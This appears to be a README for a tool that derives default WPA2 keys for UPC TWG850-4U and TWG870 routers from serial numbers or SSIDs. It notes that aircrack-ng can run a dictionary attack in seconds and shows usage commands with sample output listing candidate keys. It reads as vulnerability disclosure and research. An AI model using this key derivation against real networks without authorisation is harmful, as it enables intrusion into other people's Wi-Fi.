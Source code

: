 # TWG850/TWG870 WPA2 keys

Same as in the [Technicolor TC7200.U](https://haxx.in/upc-wifi/), the Wi-Fi SSID and
password are derived from the device's serial number.
However, for the TWG850-4U, there are around 8000-12000
possible WPA2 keys for each UPC%06d SSID and around 4000
for the TWG870's UPC%07d SSID, as opposed
to ~20 keys in the TC7200.U - still good enough for
a dictionary attack though: `aircrack-ng` takes less
than 5 seconds.


On both devices, the default WiFi channel number is also derived 
from the serial number (1 or 6 for the TWG850-4U, and 1, 6 or 11
on the TWG870). The channel number printed on the label of
TWG850-4U units is **not** used!

`$ cc upc-twg8x0.c -o upc-twg8x0`

Print WPA2 key and SSID for a TWG850 with serial number
`00939-907201352`.

```
$ ./upc-twg8x0 twg850 00939907201352
00939-907201352  6   UPC009065  AALOMMAA
```
Get serial numbers and WPA2 keys for SSID `UPC009065`

<pre>
$ ./upc-twg8x0 twg850 UPC009065
[...]
00939-907002034  1   UPC009065  IQVCGOKQ  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907301011  1   UPC009065  QGGQKWBE  
00939-907400670  6   UPC009065  EIMDZWKS
[...]
</pre>

Same as above, but limit search to channel 6

<pre>
$ ./upc-twg8x0 twg850 UPC009065 6
[...]
00939-906500332  6   UPC009065  BDMWZWKE  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907400670  6   UPC009065  EIMDZWKS  
00939-907500329  6   UPC009065  CSAAAAYZ
[...]
</pre>


